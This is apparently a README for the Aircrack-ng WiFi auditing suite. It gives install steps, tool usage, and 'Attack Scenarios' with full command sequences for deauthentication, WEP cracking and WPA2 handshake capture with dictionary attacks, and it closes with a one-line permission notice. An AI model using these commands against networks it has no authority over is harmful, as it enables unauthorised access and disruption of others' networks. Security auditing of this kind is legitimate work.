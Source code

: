 # Aircrack-ng - WiFi Security Auditing Suite

Complete suite of tools to assess WiFi network security.

## Installation

```bash
# Ubuntu/Debian
apt install aircrack-ng

# From source
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
make
sudo make install
```

## Core Components

### airmon-ng
Monitor mode enablement for wireless interfaces.

```bash
# Check wireless interfaces
airmon-ng

# Enable monitor mode
airmon-ng start wlan0

# Stop monitor mode
airmon-ng stop wlan0mon
```

### airodump-ng
Packet capture and analysis for 802.11 networks.

```bash
# Scan for networks
airodump-ng wlan0mon

# Capture specific network
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Show only specific encryption
airodump-ng --encrypt WPA2 wlan0mon
```

### aireplay-ng
Traffic generation and injection attacks.

```bash
# Deauthentication attack
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# Fake authentication
aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# ARP request replay
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0mon
```

### aircrack-ng
WEP and WPA-PSK key recovery from captured packets.

```bash
# WEP key cracking
aircrack-ng capture-01.cap

# WPA2 dictionary attack
aircrack-ng -w wordlist.txt capture-01.cap

# WPA2 with specific BSSID
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF capture-01.cap
```

## Attack Scenarios

### WEP Cracking
```bash
# Monitor target network
airodump-ng -c 6 --bssid TARGET_BSSID -w wep_capture wlan0mon

# Generate traffic (if needed)
aireplay-ng -3 -b TARGET_BSSID wlan0mon

# Crack WEP key
aircrack-ng wep_capture-01.cap
```

### WPA/WPA2 Cracking
```bash
# Capture handshake
airodump-ng -c 6 --bssid TARGET_BSSID -w wpa_capture wlan0mon

# Force handshake capture
aireplay-ng -0 1 -a TARGET_BSSID -c CLIENT_MAC wlan0mon

# Dictionary attack
aircrack-ng -w rockyou.txt wpa_capture-01.cap
```

## Additional Tools

### packetforge-ng
Create custom packets for injection attacks.

### ivstools
IVS file manipulation utilities.

### airbase-ng
Multi-purpose tool for rogue access point creation.

## Legal Considerations

Only test networks you own or have explicit permission to assess.
